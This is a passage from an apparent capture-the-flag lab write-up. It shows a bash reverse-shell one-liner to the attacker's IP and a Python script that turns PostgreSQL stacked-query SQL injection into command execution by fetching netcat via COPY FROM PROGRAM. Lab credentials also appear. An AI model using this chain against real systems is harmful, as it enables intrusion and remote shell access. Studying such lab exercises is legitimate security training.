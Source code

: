 ~~~
bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'
~~~

!["reverse-shell.png"](files/reverse-shell.png)

## Manual way

**If like me, you haven't been able to use sqlmap, use the manual way or connect to SSH with `postgres:P@s5w0rd!`**

You can use the following python [script](files/sql2shell.py):

```python
#!/usr/bin/env python3

import requests
import random

# Change these values
clientip = "10.10.14.195"
clientport = 4444

# Not supposed to change these values
srvip = "10.10.10.46"
url = "dashboard.php?search=x"
target = "http://{}/{}".format(srvip, url)
username = "admin"
password = "qwerty789"
# table suffix (to give a chance to be unique)
suffix = random.randrange(1000, 9999)

# Login
s = requests.Session()
auth = {'username':username, 'password':password}
s.post("http://{}".format(srvip), data=auth)

# DROP TABLE
payload = "{}';DROP TABLE IF EXISTS cmd_{}; -- -".format(target, suffix)
r = s.get(payload)

# CREATE TABLE
payload = "{}';CREATE TABLE cmd_{}(cmd_output text); -- -".format(target, suffix)
r = s.get(payload)

# NETCAT
### nc is already installed on the server but we can't use it. Forced to download it in /tmp
payload = "{}';COPY cmd_{} FROM PROGRAM 'wget -P /tmp/{} http://{}/nc'; -- -".format(
  target, suffix, suffix, clientip)
r = s.get(payload)
```